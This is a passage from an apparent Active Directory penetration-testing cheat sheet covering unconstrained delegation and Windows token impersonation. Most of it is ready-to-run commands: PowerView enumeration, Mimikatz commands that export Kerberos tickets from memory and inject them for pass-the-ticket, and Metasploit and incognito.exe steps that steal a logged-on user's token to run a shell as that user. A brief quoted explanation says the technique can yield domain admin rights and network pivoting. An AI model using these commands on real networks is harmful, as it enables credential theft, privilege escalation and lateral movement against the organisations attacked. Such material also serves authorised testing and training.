 ```powershell

## HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights)
```
> Clean tickets with: klist purge

### Unconstrained Delegation
```powershell
Get-DomainComputer -UnConstrained

Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Dump the tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Impersonate the user using ptt attack
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
## Token Impersonation
> Token impersonation is a Windows post-exploitation technique that allows an attacker to steal the access token of a logged-on user on the system without knowing their credentials and impersonate them to perform operations with their privileges.
> 
>This technique is effective for lateral movement and privilege escalation; an attacker can obtain domain admin privileges if a logged-on user is a domain administrator. They can also use the impersonated tokens to pivot to other domain machines on the network. The impersonation technique requires the attacker to gain local admin privileges on the compromised machine to steal its tokens. 
>Two types:
>
>Delegate: Created for loggin into machine or using Remote Desktop
>
>Impersonate: “non-interactive” such as attaching a network drive or a domain logon script

```bash
# WITH LINUX
# Open metasploit
msfconsole

windows/smb/psexec

load incognito

list tokens -u

impersonate_token [DOMAIN]\\[User]
```

```powershell
# WITH WINDOWS
# https://github.com/FSecureLABS/incognito/tree/394545ffb844afcc18e798737cbd070ff3a4eb29

.\incognito.exe list_tokens -u

.\incognito.exe execute -c "domain\user" C:\Windows\system32\cmd.exe
```
>[Up](#table-of-contents) :arrow_up:
